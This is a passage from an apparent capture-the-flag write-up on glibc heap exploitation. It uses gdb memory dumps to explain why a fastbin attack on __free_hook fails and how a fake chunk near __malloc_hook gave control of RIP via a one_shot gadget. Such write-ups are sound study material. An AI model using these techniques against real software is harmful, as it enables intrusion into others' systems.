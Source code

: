 At first, I wanted to overwrite `__free_hook` but this did not seem viable via a fastbin attack method because we need to use some byte before it as a fake, fastbin-sized chunk size in order for our `malloc()` to successfully return that pointer.
And if we look at what bytes are available for us to use, we see none.
{% highlight bash %}
gdb-peda$ x/20xg 0x7f07b600d7a8-0x80
0x7f07b600d728: 0x0000000000000000      0x0000000000000000
0x7f07b600d738: 0x0000000000000000      0x0000000000000000
0x7f07b600d748: 0x0000000000000000      0x0000000000000000
0x7f07b600d758: 0x0000000000000000      0x0000000000000000
0x7f07b600d768: 0x0000000000000000      0x0000000000000000
0x7f07b600d778: 0x0000000000000000      0x0000000000000000
0x7f07b600d788: 0x0000000000000000      0x0000000000000000
0x7f07b600d798: 0x0000000000000000      0x0000000000000000
0x7f07b600d7a8 <__free_hook>:   0x0000000000000000      0x0000000000000000
0x7f07b600d7b8: 0x0000000000000000      0x0000000000000000
{% endhighlight %}

However, `__malloc_hook` looked promising as we could request that `malloc()` return the fake chunk starting at `0x7f07b600bafd` which has `0x7f` in its sizefield, which fits with the fastbin index for fastchunks of size `0x70`.  
{% highlight bash %}
gdb-peda$ x/20xg 0x7f07b600bb10-0x80
0x7f07b600ba90: 0x0000000000000000      0x0000000000000000
0x7f07b600baa0: 0x0000000000000000      0x0000000000000000
0x7f07b600bab0: 0x0000000000000000      0x0000000000000000
0x7f07b600bac0: 0x0000000000000000      0x0000000000000000
0x7f07b600bad0: 0x0000000000000000      0x0000000000000000
0x7f07b600bae0: 0x0000000000000000      0x0000000000000000
0x7f07b600baf0: 0x00007f07b600a260      0x0000000000000000
0x7f07b600bb00 <__memalign_hook>:       0x00007f07b5ccd270      0x0000000000000000
0x7f07b600bb10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
0x7f07b600bb20: 0x0000000100000000      0x0000000000000000

gdb-peda$ x/20xg 0x7f07b600bb10-0x20+0xd
0x7f07b600bafd: 0x07b5ccd270000000      0x000000000000007f
0x7f07b600bb0d <__realloc_hook+5>:      0x0000000000000000      0x0000000000000000
0x7f07b600bb1d: 0x0100000000000000      0x0000000000000000
{% endhighlight %}

Using the same method detailed [here](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html) by my buddy Uafio, I was able to control RIP by corrupting `__malloc_hook` to point to my `one_shot` gadget, and adding another flower to call `malloc(0x28)`.

However, once I had control of RIP, I was sad to discover that none of the constraints for any of the `one_shot` gadgets could be satisfied. 
I tried stack pivoting too, but failed to find a way, given the undesirable state my registers and stack were in at the time I controlled RIP. 

So, after much frustration, I decided to move on and attempt to control RIP with another technique.

**But what I failed to realize until after I solved the challenge and read other writeups, was that I could have also triggered the `malloc()` after corrupting `__malloc_hook` by setting off a "fatal"  double free error!** 
